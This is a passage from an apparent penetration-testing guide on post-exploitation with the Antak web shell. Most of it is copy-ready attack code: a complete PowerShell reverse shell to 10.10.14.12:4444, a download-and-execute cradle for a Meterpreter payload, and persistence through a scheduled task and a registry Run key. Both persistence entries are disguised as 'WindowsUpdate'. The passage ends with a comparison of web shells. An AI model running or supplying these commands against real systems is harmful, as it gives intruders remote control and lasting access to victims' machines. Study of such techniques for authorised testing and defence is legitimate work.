 **SQL Query Execution:**
```sql
-- Database interaction
SELECT * FROM users;
SELECT name FROM sys.databases;
```

### Advanced Antak Techniques

#### Upgrading to Full Shell

**PowerShell Reverse Shell:**
```powershell
# Execute through Antak interface
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.12',4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```

**Meterpreter Integration:**
```powershell
# Download and execute Meterpreter payload
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/payload.ps1')
```

#### Persistence Through Antak

**Scheduled Tasks:**
```powershell
# Create scheduled task for persistence
schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -ep bypass -c 'IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.12/shell.ps1\")'" /sc daily /st 09:00
```

**Registry Persistence:**
```powershell
# Add registry run key
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "powershell.exe -ep bypass -c 'IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.12/shell.ps1\")'"
```

### Antak vs. Laudanum Comparison

| Feature | Antak | Laudanum |
|---------|-------|----------|
| **Technology** | ASP.NET/PowerShell | Multiple (ASP, PHP, JSP) |
| **Interface** | PowerShell-themed UI | Basic command interface |
| **Authentication** | Built-in user/password | IP-based restrictions |
| **Features** | Advanced (SQL, encoding) | Basic command execution |
| **Platform** | Windows/.NET focused | Cross-platform |
| **Learning Curve** | Moderate | Easy |
| **Obfuscation** | Built-in encoding | Manual modification |
